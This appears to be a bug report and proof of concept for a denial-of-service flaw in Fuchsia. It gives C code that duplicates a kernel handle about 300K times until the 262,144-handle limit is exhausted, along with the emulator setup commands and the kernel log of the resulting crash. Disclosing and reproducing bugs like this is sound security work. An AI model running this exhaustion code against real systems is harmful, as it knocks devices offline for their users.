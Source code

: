 # Dos on Fuchsia

Reproducing may take you only 1 min.

## Set-up


Replace "/examples/fortune/fortune.c" with the following code.

// Get a handle by calling  zx_vmo_create, then call zx_handle_duplicate to duplicate the handle. 

// Here I try to duplicate 300\*1024 handles, while the max number of handles is initialized as 256\*1024 in _arena.Init().

	#include <stdio.h>
	#include  <zircon/syscalls.h>
	#define  max_num  300*1024
	zx_handle_t  res_handle[max_num];
	int  main() {
		zx_handle_t  handle1;
		zx_status_t  sys_ret;
		sys_ret = zx_vmo_create(10,0,&handle1);
		if(sys_ret==ZX_ERR_INVALID_ARGS)
		{
			printf("wrong with zx_vmo_create");
		}
		else  if(sys_ret == ZX_ERR_NO_MEMORY)
		{
			printf("wrong no mem");
		}
		else
		{
			printf("syscall success");
		}
		int  i=0;
		while (i < max_num)
		{
			sys_ret = zx_handle_duplicate(handle1,ZX_RIGHT_SAME_RIGHTS,&res_handle[i]);
			if(sys_ret==ZX_ERR_NO_MEMORY)
			{
			// printf("Ddddddddos");
			}
			i++;
		}
		while (1)
		{}
		return  0;
	}
    
   Call printf(...) when handle could not be created.
   
   /zircon/kernel/lib/fbl/include/fbl/gparena.h
   

    void* Alloc(){
	...

		do{
			...
			if(...){
				if(...){
					printf("DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!"); // here!!!
					return nullptr;
				}
			}
		}while (!top_.compare_exchange_strong(top, next_top, ktl::memory_order_relaxed,
					ktl::memory_order_relaxed));
		count_.fetch_add(1, ktl::memory_order_relaxed);
		return  reinterpret_cast<void*>(top);
	}

## Run

Open 3 terminals. 

Terminal 1

    $ fx set workstation.qemu-x64 --ccache --with //example/fortune
    $ fx build
    $ fx vdl start -N -u FUCHSIA_ROOT/scripts/start-unsecure-internet.sh

Terminal 2

    $ fx serve-updates

Terminal 3

    $ fx log

Terminal 1
```
$ fortune
```


## Result
Warnning in Terminal 3, then the FEMU crash.

Terminal 3
```
[00016.023134][57943][57945][klog] WARNING: WARNING: High handle count: 229377 / 229376 handles
[00016.029523][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029527][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029528][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029528][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029529][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029529][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029530][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029530][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029532][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029535][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029536][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029538][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029575][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
```
You can see that now the number of exsiting handles is 256\*1024 = 262144, or the max number of handles.

Terminal 1
```

$ ssh: Could not resolve hostname : Temporary failure in name resolution
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host

```
